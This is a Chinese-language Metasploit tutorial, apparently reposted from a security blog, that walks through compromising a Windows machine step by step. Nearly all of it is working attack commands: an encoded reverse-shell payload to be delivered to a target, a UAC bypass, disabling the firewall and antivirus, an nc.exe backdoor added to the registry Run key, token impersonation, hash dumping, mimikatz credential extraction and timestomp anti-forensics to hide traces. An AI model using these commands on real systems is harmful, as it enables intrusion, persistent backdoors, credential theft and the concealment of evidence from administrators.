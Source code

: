 <http://www.secist.com/archives/1070.html>

随着windows系统的不断更新完善，windows对用户系统的安全力度也在加强。这对我们的渗透，也带来了不少的麻烦。今天我将带大家，利用目前流行的 metasploit 框架，绕过一些 UAC 及防火墙的限制，从而达到成功利用的目的！

由于绕过 UAC 的功能需在 meterpreter 的shell 才能实现。因此，我们首先要做的就是取得目标机器的 meterpreter shell 。

生成一个 payload ：

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.15.131 lport=4444 -f exe -o /root/virus.exe -e x86/shikata_ga_nai -i 8

20161006093606

将以上生成的 payload 发送给目标机器并让其执行!

接着，我们在 kali 上配置一个反弹会话处理程序：

use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set LHOST 192.168.15.131

set LPORT 4444

exploit

20161006092923

这里再介绍一种，生成反弹 shell 的方式。就是直接以 raw 的形式保存成文件只要目标进行了访问，就会反弹回 shell 。具体生成命令如下：

msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.15.131 LPORT=4444 -f raw -o x.php

当目标机器成功执行payload后我们就取得了一个 meterpreter shell 。

20161006094048

我们尝试直接利用 getuid 和 getsystem 命令来提权：

20161006100046

从以上结果我们基本可以判定遭到了 UAC 的用户访问控制的拦截！既然这样，那么我们来利用 meterpreter 的强大功能来进行绕过！

use exploit/windows/local/ask

show options

set session 1

exploit

20161006104840

当我们成功执行以上命令后，我们会在目标系统上弹出一个确认框只要点击确认即可成功绕过！现在我们再来通过 getuid 和 getsystem 命令来查看当前我们的 shell 权限：

20161006105606

现在我们来通过其 shell 来关闭防火墙：

shell

netsh adcfirewall set allprofiles state off

20161006112128

我们打开防火墙配置查看防火墙已成功被我们关闭!

20161006113355

但是我们可以看出，如果目标管理员查看防火墙配置，发现防火墙被人为关闭，那么必定引起管理员的警惕！因此，我们还可以通过策略的添加，来隐蔽我们的行为。

netsh firewall add portopening TCP 444 “VMWARE” ENABLE ALL

伪装成一个系统正常的进程，之后远程重启目标系统，并利用 NC 连接即可！

开启3389远程桌面：

run post/windows/manage/enable_rdp

20161006114052

还可以使用 run getgui -e 来开启远程桌面：

20161006121512

利用该命令，我们还可以在目标机器上添加用户：

run getgui -u xxxxx -p xxxxx

我们还可以尝试关闭目标机器上的杀毒软件：

run killav

20161006114433对目标系统桌面进行实时截图：

screenshot

use espia

20161006122300

窃取及伪造域账户 token ：

load incognito

list_tokens -u

impersonate_token xxxxx\\xxxxxxx

execute -f cmd.exe -i -t

 

20161006131139

 

利用注册表添加 NC 后门：

上传 NC 到目标系统：

upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32

枚举注册表内容（开机启动）

reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run

在该注册表增加内容（开机启动）

reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v nc -d “C:\windows\system32\nc.exe -Ldp 444 -e cmd.exe”

查看内容是否增加成功：

reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v nc

20161006141320

对目标网络实施嗅探抓包：

加载 sniffer 插件：

load sniffer

20161006150557对指定网卡进行抓包嗅探:

sniffer_start 9

20161006150635

将抓取的包保存为cap文件：

sniffer_dump 9 1.cap

20161006150651

对抓取的包进行解包：

use auxiliary/sniffer/psnuffle

set pcapfile 1.cap

run

20161006153844

获取目标系统上的 hash 值：

use post/windows/gather/hashdump

set session 4

run

20161006155822

基于MACE时间的反电子取证：

timestomp -v secist.txt

查看当前目标文件 MACE 时间。

 

20161006172320

timestomp -f c:\\AVScanner.ini secist.txt （将模板文件MACE时间，复制给当前文件）

timestomp -v secist.txt

20161006172248

最后介绍个神器 mimikatz ：

load mimikatz

msv (获取 hash 值)

ssp （获取明文信息）

wdigest （获取系统账户信息）

mimikatz_command -f a:: (必须要以错误的模块来让正确的模块显示)

mimikatz_command -f hash:: (获取目标 hash)